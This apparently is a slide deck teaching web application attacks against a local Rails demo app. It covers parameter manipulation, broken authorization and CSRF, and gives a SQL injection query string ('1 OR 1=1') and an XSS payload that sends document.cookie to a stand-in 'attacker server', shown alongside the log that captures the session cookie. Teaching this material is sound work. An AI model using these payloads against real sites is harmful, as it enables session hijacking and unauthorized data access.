







!SLIDE bullets incremental small
## Exploits ##
* > Piece of *software*, a *chunk of data*, or *sequence of commands*
* > that *takes advantage* of a *bug*, *glitch or vulnerability*  
* > in order to *cause* *unintended behavior* to occur on computer software, hardware, or something electronic.

!SLIDE bullets incremental small
## ... ##
* > Includes such things as *gaining control* of a computer system or 
* > allowing *privilege escalation* or a *denial of service attack*.

!SLIDE
### Parameter Manipulation ##
	@@@ html
	<form accept-charset="UTF-8" action="/users" 
    method="post">
	<input id="user_email" name="user[email]" 
    size="30" type="text" value="" />
	<input id="user_password" name="user[password]" 
    size="30" type="password" />
	<input type="submit" value="Create" />
	</form>

!SLIDE full-page bullets incremental
* Based on *RoR convetions* we may *infer a db model* something like:
* 

!SLIDE bullets incremental
    @@@ html
    <select id="user_role_id" name="user[role_id]">
* Since *user* would hold *foreign key* to *role* table

!SLIDE full-page

!SLIDE full-page

!SLIDE bullets incremental
* This kind of flaw reveals a *lack of server side validations* or *defective authorization logic*

!SLIDE bullets incremental full-page
### SQL Injection ###
* Consider search raises page
* 

!SLIDE bullets incremental full-page
### ... ###
* Look at what *address* is the *search* going through ...
* http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=**1000.00**
* *Testing the waters*
* http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=**1'**

!SLIDE full-page

!SLIDE bullets incremental
* Lets modify the query string
* http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=**1+OR+1%3D1**
* *Surprise!*

!SLIDE full-page

!SLIDE bullets incremental
### Broken Authorization ###
* *Parts/resouces* of our application are usually *restricted* to different *users*
* Some times *logic behind* access is *flawed*

!SLIDE bullets incremental
* Following with our previous example on a security flaw
* Are we able to *delete* someone else *raise petition*?

!SLIDE full-page

!SLIDE bullets incremental small
### Cross-Site Scripting ###
* > Type of computer security *vulnerability* typically found in *web* applications 
* > that *enables* malicious attackers to *inject client-side script* into web pages viewed by other users.

!SLIDE bullets incremental
### Harming script ###
    @@@javascript
    

* **Note:** This script may be written in a variety of different ways
* &lt;script&gt;document.write('&lt;img src="http://localhost:80/' + document.cookie + '" &gt;')&lt;/script&gt;

!SLIDE full-page

!SLIDE full-page

!SLIDE full-page

!SLIDE small
    @@@ html
    <tr>
      <td><a href="/users/2">poor@test.com</a></td>
      <td>
        
      </td>
      <td>Employee</td>
      <td>5.0</td>
      <td>
        <a href="/users/2">Show</a>
        |
        <a href="/users/2/edit">Edit</a>
        |
        <a href="/users/2" data-confirm="Are you sure?" 
          data-method="delete" rel="nofollow">Destroy</a>
      </td>
    </tr>

!SLIDE commandline incremental
### If this were the attacker server ###
    $ tail -f /var/log/apache2/error.log 
    [Wed Oct 06 13:40:39 2010] [error] [client 127.0.0.1] 
    File does not exist: /var/www/_salary-manager_session
    =BAh7CCIQX2NzcmZfdG9rZW4iMWhhNHZRUW0zRVRSZUQ3TlI3dXFI
    NzQ3NFIwYm1FMGJhYXpNYXV4N0FpdFU9Ig9zZXNzaW9uX2lkIiVjN
    GQyYjcwMmE5OWYxNDlmYzYyNzliYjlkNTBlZDUxMSIZd2FyZGVuLn
    VzZXIudXNlci5rZXlbByIJVXNlcmkG--f5fd5e5103ee0d723d616
    f130f934c6ef5b33e2b

!SLIDE bullets incremental small
### Cross-Site Request Forgery ###
* > Also known as a *one-click attack* or *session riding* and abbreviated as CSRF or XSRF
* > Type of *malicious exploit* of a website whereby *unauthorized commands* are *transmitted from* a user that the *website trusts*.

!SLIDE bullets incremental
### XSS vs CSRF ###
* *XSS* exploits the trust a *client* has *for* a *site*
* *CSRF* exploits the trust a *site* has for a *client*
